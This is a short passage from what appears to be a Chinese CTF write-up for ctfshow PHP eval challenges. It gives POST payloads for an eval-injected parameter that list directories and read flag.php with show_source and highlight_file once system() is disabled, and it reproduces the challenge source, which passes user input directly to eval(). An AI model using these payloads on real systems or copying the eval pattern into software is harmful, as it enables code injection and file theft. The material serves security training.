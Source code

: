 ```perl
c=system(ls);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/bf2e75edb4a965484c49f28e43729144.png" alt="" style="max-height:170px; box-sizing:content-box;" />


发现禁用了



<img src="https://i-blog.csdnimg.cn/blog_migrate/0138d3e9af8ebde75c5a0136de221f82.png" alt="" style="max-height:144px; box-sizing:content-box;" />


其他函数都被禁用了

所以只能使用php内置函数

```lisp
c=print_r(scandir(dirname(__FILE__)));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/250659f396d6c78ddb6b3e46ea03f7b4.png" alt="" style="max-height:169px; box-sizing:content-box;" />




```cobol
c=highlight_file(scandir(dirname(__FILE__))[2]);
```

或者直接使用show_source来读取

```cobol
c=show_source('flag.php');
```

## web59

```cobol
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```
